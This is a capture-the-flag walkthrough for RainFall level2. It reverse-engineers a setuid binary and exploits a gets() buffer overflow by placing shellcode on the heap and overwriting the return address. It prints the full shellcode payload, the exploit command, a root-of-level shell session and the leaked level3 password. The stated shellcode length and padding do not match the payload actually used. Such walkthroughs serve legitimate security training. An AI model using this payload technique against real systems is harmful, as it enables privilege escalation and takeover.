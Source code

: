 # Level2

As in level1, we can find an executable waiting for an input, print it and quit after press enter
```
level2@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2
level2@RainFall:~$ ./level2
bla
bla
level2@RainFall:~$
```
After analyze it with radare2 (please refer to level1 if you want more details on the steps to follow)  
We can see that the `main()` function call a function named `p()`.  
- main() :
```
[0x08048420]> s main
[0x0804853f]> pdda
    ; assembly                           | /* r2dec pseudo code output */
                                         | /* level2 @ 0x804853f */
                                         | #include <stdint.h>
                                         |  
    ; (fcn) main ()                      | int32_t main (void) {
    0x0804853f push ebp                  |
    0x08048540 mov ebp, esp              |
    0x08048542 and esp, 0xfffffff0       |
    0x08048545 call 0x80484d4            |     p ();
    0x0804854a leave                     |
    0x0804854b ret                       |
                                         | }
```
- p() :
```
[0x0804853f]> s sym.p
[0x080484d4]> pdda
    ; assembly                                   | /* r2dec pseudo code output */
                                                 | /* level2 @ 0x80484d4 */
                                                 | #include <stdint.h>
                                                 |  
    ; (fcn) sym.p ()                             | int32_t p (int32_t arg_4h) {
                                                 |     char * src;
                                                 |     int32_t var_ch;
                                                 |     int32_t var_4h;
    0x080484d4 push ebp                          |
    0x080484d5 mov ebp, esp                      |
    0x080484d7 sub esp, 0x68                     |
    0x080484da mov eax, dword [0x8049860]        |     eax = stdout;
    0x080484df mov dword [esp], eax              |
    0x080484e2 call 0x80483b0                    |     fflush (eax);
    0x080484e7 lea eax, [ebp - 0x4c]             |     eax = ebp - 0x4c;
    0x080484ea mov dword [esp], eax              |
    0x080484ed call 0x80483c0                    |     gets (eax);
    0x080484f2 mov eax, dword [ebp + 4]          |     eax = *((ebp + 4));
    0x080484f5 mov dword [ebp - 0xc], eax        |     *((ebp - 0xc)) = eax;
    0x080484f8 mov eax, dword [ebp - 0xc]        |     eax = *((ebp - 0xc));
    0x080484fb and eax, 0xb0000000               |     eax &= 0xb0000000;
    0x08048500 cmp eax, 0xb0000000               |
                                                 |     if (eax == 0xb0000000) {
    0x08048505 jne 0x8048527                     |
    0x08048507 mov eax, 0x8048620                |         eax = "(%p)\n";
    0x0804850c mov edx, dword [ebp - 0xc]        |         edx = *((ebp - 0xc));
    0x0804850f mov dword [esp + 4], edx          |         *((esp + 4)) = edx;
    0x08048513 mov dword [esp], eax              |
    0x08048516 call 0x80483a0                    |         printf (eax);
    0x0804851b mov dword [esp], 1                |
    0x08048522 call 0x80483d0                    |         exit (1);
                                                 |     }
    0x08048527 lea eax, [ebp - 0x4c]             |     eax = ebp - 0x4c;
    0x0804852a mov dword [esp], eax              |
    0x0804852d call 0x80483f0                    |     puts (eax);
    0x08048532 lea eax, [ebp - 0x4c]             |     eax = ebp - 0x4c;
    0x08048535 mov dword [esp], eax              |
    0x08048538 call 0x80483e0                    |     strdup (eax);
    0x0804853d leave                             |     
    0x0804853e ret                               |     return eax;
                                                 | }
[0x080484d4]>
```
Let focus on the `p()` function.  
As in level1, we can see call to `gets()` function with a size of 0x4c (76) wich is vulnerable to buffer overflow attack.
```
    0x080484e7 lea eax, [ebp - 0x4c]             |     eax = ebp - 0x4c;
    0x080484ea mov dword [esp], eax              |
    0x080484ed call 0x80483c0                    |     gets (eax);
```
But to get the real size of the buffer we have to add 4 more bytes to reach the return adress (push ebp) => buffer = 80.  
A check is made to make sure we dont overwrite the return address to an adress on the stack
```
    0x080484fb and eax, 0xb0000000               |     eax &= 0xb0000000;
    0x08048500 cmp eax, 0xb0000000               |     if (eax == 0xb0000000) {
		                    
									more code...

	0x08048522 call 0x80483d0                    |         exit (1);
                                                 |     }
```
Due to this check we couldn't point the return address to the stack. This avoids having a shellcode stored on the stack or in environment variable.  
But if we can't use the stack we can use the heap !  
We see in the program that the buffer is later copied inside a strdup. This function use malloc who store the memory in ... the heap.
```
	0x08048538 call 0x80483e0                    |     strdup (eax);
```
We can see that malloc always return the address `0x804a008` :
```
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)								= 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5)	= 0xbffff6fc
puts("")										= 1
strdup("")										= 0x0804a008
+++ exited (status 8) +++
level2@RainFall:~$
```
Now we can try to copy a shellcode in the heap by writing it in the input prompt and then write the allocated address (malloc) on the return address.  
Thanks to internet we find some Linux shellcode we found online which will run execve(/bin/sh)  
`\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80`  
Since our shellcode is 41 bytes long we could pad the back with any byte sequence, until 80 bytes then 4 last bytes for the return adress.  
Our final attack buffer will looks like :  
- shellcode 			: 41 bytes
- pad of arbitrary data : 29 bytes
- return adress			: 4 bytes
```
level2@RainFall:~$ python -c "print '\x31\xd2\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x31\xc0\xb0\x0b\x89\xe3\x83\xe4\xf0\xcd\x80' + 'a' * 54 + '\x08\xa0\x04\x08'" >/tmp/exploit
level2@RainFall:~$ cat /tmp/exploit - | ./level2
11Qh//shh/bin1��
               ̀aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
whoami
level3
cat /home/user/level3/.pass  
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
^C
level2@RainFall:~$ su level3
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
level3@RainFall:~$
```
Level2 passed!

